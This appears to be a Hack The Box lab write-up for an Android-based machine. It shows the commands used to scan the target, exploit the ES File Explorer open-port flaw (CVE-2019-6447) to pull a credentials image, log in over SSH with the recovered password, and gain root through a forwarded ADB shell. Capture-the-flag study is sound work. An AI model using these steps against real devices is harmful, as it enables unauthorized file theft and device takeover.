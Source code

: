 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.247
nmap -p 2222,38925,42135,59777 -sCV -oA scans/nmap-tcpscripts 10.10.10.247
```

---

## 🛡️ CVE-2019-6447 — ES File Explorer
```bash
# Test access
curl 10.10.10.247:59777

# Enumerate files
curl 10.10.10.247:59777 -d '{"command": "listFiles"}'

# List images (look for creds.jpg)
curl 10.10.10.247:59777 -d '{"command": "listPics"}'

# Download image with password
python poc.py --get-file /storage/emulated/0/DCIM/creds.jpg --host 10.10.10.247
```

---

## 🗑️ [Shell](SSH) as kristi
```bash
sshpass -p 'Kr1sT!5h@Rp3xPl0r3!' ssh -p 2222 kristi@10.10.10.247

# Look for user.txt
cd /storage/emulated/0
cat user.txt
```

---

## 🤎 Enumeration as kristi
```bash
netstat -tnlp  # confirm port 5555 is open
```

---

## ⚖️ ADB Setup (Port Forwarding)
```bash
# Reconnect SSH with port forward
ssh -L 5555:localhost:5555 -p 2222 kristi@10.10.10.247

# On local machine
adb connect localhost:5555
adb devices
adb shell
```

---

## 🤐 Root Access via ADB
```bash
adb shell
su

# Locate and read flag
find / -name root.txt 2>/dev/null
cat /data/root.txt
```

---

## 📑 Resources
- CVE-2019-6447: ES File Explorer RCE
- ADB: Android Debug Bridge over SSH Tunnel
- ES File Explorer Exploit Script: https://github.com/fs0c131y/ESFileExplorerOpenPortVuln